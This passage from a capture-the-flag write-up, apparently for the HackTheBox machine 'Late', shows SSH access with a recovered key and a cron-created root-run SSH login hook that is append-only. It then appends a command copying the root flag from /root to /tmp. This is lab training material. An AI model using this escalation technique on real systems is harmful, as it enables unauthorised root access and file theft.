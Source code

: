 ```
```

We can create a file with the contents, give it the right permissions(600) to the file and use it to SSH as `svs_acc` user.

```bash
$ ssh -i svc_acc.idrsa svc_acc@10.129.166.198
```

## Path to Root
Using `pspy` we notice that there is a cronjob creating a bash script and setting the owner as `svc_acc` user.
It creates the following file:
```bash
/usr/local/sbin/ssh-alert.sh
```

With the contents:
```bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Using `lsattr` we see that we cannot edit the file contents but we can append!
```bash
svc_acc@late:/usr/local/sbin$ lsattr ssh-alert.sh
-----a--------e--- ssh-alert.sh
```

It seems that the script is executed as `root` when someone SSH in.

## Privilege Escalation to Root
We have "append" permissions over this file so we can simply add any system command in there and login with SSH to trigger the script.

### Read root flag
Lets make a copy of the `root` flag to `/tmp` directory:
```bash
echo 'cat /root/root.txt > /tmp/root.txt' >> /usr/local/sbin/ssh-alert.sh
```
